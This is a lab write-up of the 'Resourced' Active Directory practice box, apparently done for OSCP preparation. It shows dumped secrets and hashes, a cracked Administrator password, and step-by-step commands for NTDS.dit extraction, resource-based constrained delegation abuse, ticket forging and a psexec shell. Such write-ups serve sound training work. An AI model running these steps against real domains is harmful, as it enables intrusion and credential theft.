

# Resourced Writeup
Name: Resourced
Date:  28/09/2022
Difficulty:  Intermediate
Goals:  
- OSCP Prep 1/5 Medium Boxes in a day, writeups allowed
- Improving Noting with BoxedName-Notes.md 
Learnt:
- Wonders of secrets dump
- Sometimes escaping white is -7 worth of problem solving 
- Impacket is awesome
- Resource Based Contrained Delegation
- Exfiltrate everything, dont skip trying to exfiltrate
- Be more methodical noting TODO when handling data 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Resourced is a Active Directory box.
Guest Account disabled. But through enum4linux we get credentials:


V.Ventz HotelCalifornia194!


`Password\ Audit` got me.

[Extract and Crack NDTS](https://bond-o.medium.com/extracting-and-cracking-ntds-dit-2b266214f277)

This is what I had:
```
[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:507fdb105d9322cf53420c95780adf5f2dcdac7ca14f8b37188370c916a3fa6f2a511bb284aeac71211c939a866a2b4cc02c408e1d242ad4f5cc8f7b85d2448c18d23fb47f7b9b543a6cfb8999e40037f23dbfd8690869753979d15fe61bdcddb0ccff3d20c275207ca93e844c3b5aa1f658198225b3e54f90e0b71aaf76ba32bb1b598d189b6696c27d04674fd4c4f2c09d0df2e59fe93850aa928be813be3bd659f0d2ecba6e34fb5a3880db8155cf77e21eb44d63e1ae65abcc2aa5bdfb6bfe85e8590329929522aae501ba86d8622918e37b41daef8a2b00e78440d13e88a31fc14714923bba6fb99e13c81b3020
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d
[*] DPAPI_SYSTEM
dpapi_machinekey:0x85ec8dd0e44681d9dc3ed5f0c130005786daddbd
dpapi_userkey:0x22043071c1e87a14422996eda74f2c72535d4931
[*] NL$KM
 0000   31 BF AC 76 98 3E CF 4A  FC BD AD 0F 17 0F 49 E7   1..v.>.J......I.
 0010   DA 65 A6 F9 C7 D4 FA 92  0E 5C 60 74 E6 67 BE A7   .e.......\`t.g..
 0020   88 14 9D 4D E5 A5 3A 63  E4 88 5A AC 37 C7 1B F9   ...M..:c..Z.7...
 0030   53 9C C1 D1 6F 63 6B D1  3F 77 F4 3A 32 54 DA AC   S...ock.?w.:2T..
NL$KM:31bfac76983ecf4afcbdad0f170f49e7da65a6f9c7d4fa920e5c6074e667bea788149d4de5a53a63e4885aac37c71bf9539cc1d16f636bd13f77f43a3254daac
```

Then went back after trying this as I had never seen this sort of output other than dpapi keys
`cd "Active Directory\ `

I tried various ways of logging in rdp, winrm, psexec with various accounts


```bash
impacket-secretsdump -ntds ntds.dit -system  system LOCAL > bigdump
cat bigdump | grep ::: | awk -F: '{print $4}'
# Crackstation the hases
Administrator 12579b1666d4ac10f0f59f300776495f : ItachiUchiha888
```

I then exeperienced a rabbit hole with AD having all the hashes like that then I tried forging tickets, I thought I had crackmapexec L.Livingston as I saw he was a sysadmin...


## Foothold

L.Livingston is a sysadmin.
Regardless I have not the time left I so learnt some Resource Based Contrained Delegation

## PrivEsc


Resource Based Contrained Delegation
```bash
# Kali - create a new machine account on the domain
impacket-addcomputer $domain.local/$user -dc-ip $domaincontroller-ip $domaincontroller-ip  -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
# Target - Verify 
PS > get-adcomputer attack

# Kali - Get delegation rights script to manage delegation rights
wget https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py
# set sDS-AllowedToActOnBehalfOfOtherIdentity on new machine account
sudo python3 rbcd.py -dc-ip $domaincontroller-ip -t $target -f 'ATTACK' -hashes :$hash $domain\\$user

# Target - Verify
PS> Get-adcomputer resourcedc -properties msds-allowedtoactonbehalfofotheridentity |select -expand msds-allowedtoactonbehalfofotheridentity

# Kali - Get administrator service ticket
impacket-getST -spn cifs/$dc.$domain.local $domain/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip $domaincontroller-ip 
# export the KRB55CCNAME so that impacket can load the .ccache file
export KRB5CCNAME=./Administrator.ccache
# Append /etc/hosts file with 
sudo sh -c 'echo "$domaincontroller-ip $domain.local dc.$domain.local" >> /etc/hosts'
# Psexc in!
sudo impacket-psexec -k -no-pass $dc.$domain.local -dc-ip $domaincontroller-ip
```


